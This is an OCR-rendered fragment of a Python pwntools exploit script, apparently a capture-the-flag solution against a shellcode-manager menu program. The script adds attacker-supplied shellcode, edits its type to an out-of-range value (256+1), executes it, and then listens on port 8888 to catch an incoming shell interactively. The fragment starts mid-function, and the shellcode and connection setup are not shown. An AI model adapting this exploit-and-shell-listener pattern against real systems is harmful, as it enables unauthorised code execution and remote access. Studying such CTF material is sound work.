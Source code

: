 ```python
			
	ru=lambda x:p.recvuntil(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sa=lambda a,b:p.sendafter(a,b)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda :p.interactive()
	
	def cho(choice):
		ru('Choice: ')
		sl(str(choice))
		
	def add(t, s, val):
		cho(1)
		ru('write):')
		sl(str(t))
		ru('shellcode: ')
		sl(str(s))
		ru('Shellcode: ')
		sl(val)
	
	def delete(idx):
		cho(5)
		ru('index:')
		sl(str(idx))
	
	def exe(idx):
		cho(3)
		ru('index:')
		sl(str(idx))
		
	def edit(idx,ty):
		cho(2)
		ru('Shellcode index: ')
		sl(str(idx))
		ru(' (y/n):')
		sl('y')
		ru('3=write): ')
		sl(str(ty))
		ru(' (y/n): ')
		sl('n')
	
	add(1, len(code), code)
	edit(0,256+1)
	exe(0)
	return ''

if __name__ == "__main__":

	th = threading.Thread(target=exp, args=(0,0))
	th.start()
	
	io = listen(8888)
	io.wait_for_connection()
	io.interactive()

```
